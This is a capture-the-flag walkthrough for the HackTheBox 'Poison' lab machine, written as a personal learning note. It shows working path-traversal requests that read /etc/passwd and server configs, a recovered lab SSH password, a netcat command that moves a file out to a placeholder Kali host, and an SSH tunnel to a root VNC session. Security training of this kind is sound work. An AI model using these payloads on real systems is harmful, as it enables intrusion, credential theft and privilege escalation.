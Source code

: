 # HackTheBox - Poison

### What I Learned

1. Understanding where the root server directory lives is important to enumeration and exploitation
2. Getting a secret.zip file does not mean the end of the CTF

<details>
  <summary><strong>Writeup Summary</strong></summary>
Scan the machine and find a file lookup system. Enumerate the listed files and find a list of additional files. Extract the password from it using shell scripting. Use the new password to get a semi-restricted shell. There is a zipped secrets file. Extract it and unzip it. Check ports and processes. There is a process running that is root level and not normally on linux (Xvnc) listening on port 5801 and 5901.
Create a listener from the kali machine to the target machine and port, then use vncviewer to use the extracted secrets file to to get a root shell. 
</details>
<br>

## Writeup

Scan the machine using nmap
Then scan for all ports

- `nmap -sV -sC -vv -oA nmap/scan 10.129.1.254`

Find that website is vulnerable to LFI php scripts
First query that works is

- Full query in Burp
- `GET /browse.php?file=/usr/local/www/apache24/data/browse.php?page=../../../../../../../../../../etc/passwd HTTP/1.1`
- URL for searchbar

  - `/usr/local/www/apache24/data/browse.php?page=../../../../../../../../../../etc/passwd`
  - Can also get /etc/fstab

![alt text](images/image.png)

Burp Queries that work

- `GET /browse.php?file=/usr/local/www/apache24/data/browse.php?page=../../../../../../../../../../usr/local/etc/apache24/httpd.conf HTTP/1.1`

Info gathered from queries

- ServerRoot "/usr/local"
- User home directories
  #Include etc/apache24/extra/httpd-userdir.conf
- /usr/local/apache2/logs/access_log
- /var/log/httpd-access.log
- `/usr/local/www/apache24/data/browse.php?page=../../../../../../../../../../usr/local/etc/apache24/extra/httpd-ssl.conf`
- `/usr/local/www/apache24/data/browse.php?page=../../../../../../../../../../var/log/httpd-access.log HTTP/1.1`

![alt text](images/image-1.png)

Find hash on pwdbackup.txt. Decoded is :
`Charix!2#4%6&8(0`

Ssh into poison using charix:Charix!2#4%6&8(0

Transfer the zip file to Kali
On the target machine run  
`nc -w 5 <KALI_IP> <PORT_NUM> < filename.txt`  
On Kali run  
`nc -lp <PORT_NUM> > filename.txt`

Unzip the secret.zip file

- `7z x -p'Charix!2#4%6&8(0' secret.zip`
- `[|Ֆz!`
- Output is unintelligible

Check what processes are running

- ps -auxw

Find a root process running Xvnc - not normally run
Try to find programs running

- Open processes in a window to search and use regex "/SEARCH"
  - Ps -auxw | less -w
  - A program called vnc is running
  - /usr/local/share/tightvnc/classes -auth /r

Check what ports are listening

- Netstat -an | grep LIST
  - Find 2 localports listening on 127.0.0.1 ports 5801 and 5901

Set up an ssh on the kali machine listening on LOCALHOST:6789 that forwards traffic to port 5901 on the remote ssh charix session's machine

- `ssh -L 6789:127.0.0.1:5901 charix@10.129.216.122`
  Then use the listener port to use vncviewer on the remote port of the target machine and use the secret file password
  - `vncviewer 127.0.0.1:6789 -passwd ./secret`
